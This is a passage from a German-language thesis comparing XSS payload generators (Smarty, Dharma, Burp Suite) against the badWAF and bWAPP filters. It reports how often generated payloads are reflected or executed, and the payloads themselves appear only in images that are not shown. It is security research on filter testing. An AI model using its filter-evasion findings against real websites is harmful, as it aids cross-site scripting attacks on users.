	
\includegraphics[width=\textwidth]{contents/images/BadWAFDiagramReflectedFilterHTML}
	\caption{badWAF: Durchschnittliche Anzahl der Payloads im HTML-Kontext}
	\label{fig:BadWAFDiagramReflectedFilterHTML}
\end{figure}

In Abbildung \ref{fig:BadWAFDiagramReflectedFilterAttrVal} ist ein ähnliches Ergebnis für die Payloads im Attributwert-Kontext abzulesen. Bei Payload-Generierung für den Attribut-Kontext gelang es Smarty, mit durchschnittlich drei Versuchen weniger einen passenden Payload zu generieren. Dharma und die Burp-Suite konnten im Attribut-Kontext ihre Werte beibehalten.
 
\begin{figure}[htp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/BadWAFDiagramReflectedFilterAttrVal}
	\caption{badWAF: Durchschnittliche Anzahl der Payloads im Attributwert-Kontext}
	\label{fig:BadWAFDiagramReflectedFilterAttrVal}
\end{figure}
\FloatBarrier

Abbildung\footnote{Die Payloads wurden wegen möglichen Steuerzeichen aus einem Texteditor abfotografiert.} \ref{fig:BadWAFreflectedResultsSingleFPB} zeigt eine zufällige Auswahl an erfolgreich reflektierten Payloads mit aktivem fpb-Filter im HTML-Kontext. Erkennbar ist vor allem die Tendenz ein bestimmtes Angriffsmuster, mit verschiedenen Outbreak-Sequenzen, zu verwenden. Durch den aktiven Filter wurden verstärkt Payloads generiert, die in einem JavaScript-Kontext funktioniert hätten, jedoch im HTML-Kontext wirkungslos bleiben.

\begin{figure}[htp] 
	\centering
	
\includegraphics[width=.60\textwidth]{contents/images/BadWAFreflectedResultsSingleFPB}
	\caption{Smarty: Reflektierte Payloads mit aktivem fpb-Filter}
	\label{fig:BadWAFreflectedResultsSingleFPB}
\end{figure}

Alternativ wird in Abbildung \ref{fig:BadWAFReflectedResultsSingleFKJS} eine Auswahl erzeugter Payloads mit aktivem fkjs-Filter im HTML-Kontext dargestellt. Durch eine größere Musterbasis variieren die erzeugten Payloads stärker.

\begin{figure}[htp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/BadWAFReflectedResultsSingleFKJS}
	\caption{Smarty: Reflektierte Payloads mit aktivem fkjs-Filter}
	\label{fig:BadWAFReflectedResultsSingleFKJS}
\end{figure}
\FloatBarrier

\subsubsubsection{Kombinierte XSS-Filter}

Bei den Testläufen mit kombinierten XSS-Filtern hat Smarty in allen Durchläufen einen reflektierenden Payload gefunden. Sowohl Dharma als auch die Burp Suite konnte bei einigen Kombinationen keinen Payload ermitteln.

%Dharma ist bei zwei Testläufen (fünf und sechs kombinierte Filter) innerhalb des Zeitlimits keinen passenden Payload finden können. 
Für Dharma war es bei Testläufen (fünf und sechs kombinierte Filter) nicht möglich, innerhalb des Zeitlimits von fünf Minuten einen passenden Payload zu finden. Die Burp Suite konnte mit steigenden Filterkombinationen immer weniger Payloads reflektieren.

%Der Verlauf der Zuverlässigkeiten ist in den Abbildungen  \ref{fig:BadWAFDiagramReflectedFilterHTMLCombined} und \ref{fig:BadWAFDiagramReflectedFilterAttrValCombined} zeigt den Verlauf der Zuverlässigkeit für die verwendeten Programme, einen reflektierten Payload zu finden\footnote{Der blaue Strich von Smarty wird in diesem Diagramm vollständig vom roten Überdeckt.}.

Der Verlauf der Zuverlässigkeit ist in den Abbildung \ref{fig:BadWAFDiagramReflectedFilterHTMLCombined} und \ref{fig:BadWAFDiagramReflectedFilterAttrValCombined} dargestellt. Dabei beziehen sich die Diagramme auf die verschiedenen getesteten Kontexte.
Sowohl Smarty als auch Dharma haben im HTML-Kontext in jedem Testlauf einen reflektierten Payload erzeugen können. Die Burp Suite konnte mit der gegebenen Liste schon bei zwei kombinierten Filtern, bei drei Durchgängen keinen passenden Angriff finden.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=0.8\textwidth]{contents/images/BadWAFDiagramReflectedFilterHTMLCombined}
	\caption{badWAF: Zuverlässigkeit für reflektierte Payloads im HTML-Kontext}
	\label{fig:BadWAFDiagramReflectedFilterHTMLCombined}
\end{figure}

Im Attributwert-Kontext konnte Dharma bei zwei der 25 Durchläufe keinen passenden Payload innerhalb der gegebenen Zeitvorgabe konstruieren. Der Smarty-Generator hingegen konnte eine 100\%-ige Zuverlässigkeit vorweisen.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=.8\textwidth]{contents/images/BadWAFDiagramReflectedFilterAttrValCombined}
	\caption{badWAF: Zuverlässigkeit für reflektierte Payloads im Attributwert-Kontext}
	\label{fig:BadWAFDiagramReflectedFilterAttrValCombined}
\end{figure}

\FloatBarrier
In Abbildung \ref{fig:BadWAFReflectedResultsCombined} ist eine Auswahl reflektierter Payloads aus verschiedenen Testläufen mit verschiedenen Filterkombinationen dargestellt. Wie bereits erwähnt wird die Generation von Smarty durch bestimmte Filterkombinationen dazu gebracht einen Payload mit wenig Elementen zu wählen, die jedoch noch (relativ) viele Lebenspunkte besitzen. So wird eine Reflexion erreicht, die keine Ausführung des Codes ermöglicht.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/BadWAFReflectedResultsCombined}
	\caption{Smarty: Reflektierte Payloads mit kombinierten Filtern}
	\label{fig:BadWAFReflectedResultsCombined}
\end{figure}


\FloatBarrier

\subsubsection{bWAPP}

Die Testläufe gegen die bWAPP-Anwendung wurden mit den drei beschriebenen Sicherheitsleveln durchgeführt. Bei Durchgängen mit der niedrigsten Sicherheitsstufe (Level 0) konnten alle drei Verfahren den ersten gesendeten Payload reflektieren.

Auf Level eins konnte die Burp Suite mit durchschnittlich vier Payloads einen Payload reflektieren. Smarty belegte mit sechs Payloads den zweiten Platz. Schlusslicht wurde der Dharma-Generator mit zehn Payloads. In Abbildung \ref{fig:bWAPPLvl1ReflectedTries} ist deutlich zu sehen, welchen Vorteil das Verwenden von statischen Listen hat. Bis auf wenige Ausnahmen konnte die Burp Suite immer die geringste Anzahl an benötigten Payloads aufweisen. Bemerkenswert ist auch die extreme Schwankung der Versuche bei der kontextfreien Generierung von Dharma.
 

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/bWAPPLvl1ReflectedTries}
	\caption{bWAPP: Verlauf der Versuche für Level 1}
	\label{fig:bWAPPLvl1ReflectedTries}
\end{figure}

%Die Sicherheitsstufe zwei konnte alle Angriffe der Burp Suite-Liste erfolgreich filtern.  32\% der generierten Payloads von Dharma wurden erfolgreich von der bWAPP-Webanwendung reflektiert.
Im abschließenden Testlauf mit Sicherheitsstufe zwei konnte bWAPP alle Payloads der Burp Suite erfolgreich filtern. Im Vergleich dazu erreichte Dharma eine Quote an erfolgreich reflektierten Payloads von 32\%. Die meisten reflektierten Payloads konnte Smary generieren. Hier konnten 80\% der generierten Payloads in der Antwort der Webseite gefunden werden. Der Verlauf der benötigten Versuche in Abbildung \ref{fig:bWAPPLvl2ReflectedTries} zeigt wieder, dass die Zahl der getesteten Payloads enorm ansteigen kann. Sowohl Smarty, als auch Dharma haben im zweiten Testlauf eine erhöhte Zahl getesteter Payloads benötigt. Durch diese hohe Testabdeckung können aber dennoch Payloads gefunden werden, die trotz einer starken Prüfung reflektiert werden.


\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/bWAPPLvl2ReflectedTries}
	\caption{bWAPP: Verlauf der Versuche für Level 2}
	\label{fig:bWAPPLvl2ReflectedTries}
\end{figure}

\FloatBarrier
\subsection{Ausgeführte Payloads}

\subsubsection{Generierung ausführbarer Payloads}

In einem weiteren Schritt wurde evaluiert, wie effektiv die generierten Payloads von Smarty, Dharma und der Burp Suite sind. Hierzu wurden zehn Generierungsrunden durchgeführt und geprüft ob der verwendete Payload beim Laden der Webseite im Browser ausgeführt wurde.

\subsubsubsection{badWAF}

Als besondere Schwäche der Generatoren kann wieder der \textbf{fpb}-Filter identifiziert werden. Keiner der verwendeten Genetaroren/Listen konnte einen erfolgreich ausgeführten Payload für diesen Filter finden. SmartGrazer generierte durchschnittlich über 6000 Payloads für diesen Filter, von denen 43 Payloads im HTML-Kontext und 48 Payloads im Attributwert-Kontext erfolgreich reflektiert worden sind.

Die Abbildungen \ref{fig:badWAF-html-execute-combined} und \ref{fig:badWAF-attrval-execute-combined} zeigen, wie die Zuverlässigkeiten mit steigender, kombinierter Filterzahl verlaufen. Während Smarty und die Burp Suite es schafften, einige Payloads zur Ausführung zu bringen, kann bei Dharma eine deutliche Schwäche diesbezüglich beobachtet werden. Besondere Schwierigkeiten hat Dharma hier bei fünf und sechs kombinierten Filtern.

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/BadWAFDiagramReflectedFilterHTMLCombined}
	\caption{badWAF: Zuverlässigkeit für ausführbare Payloads im HTML-Kontext}
	\label{fig:badWAF-html-execute-combined}
\end{figure}

\FloatBarrier
Während Smarty bei allen Filterkombinationen einen funktionierenden Payload für den HTML-Kontext generieren konnte, fällt die Zuverlässigkeit der anderen Verfahren besonders im Attributwert-Kontext merklich ab. Ein Grund hierfür kann die bestehende Auswahl an Grammatikdefinitionen sein.

\begin{figure}[htbp] 
	\centering
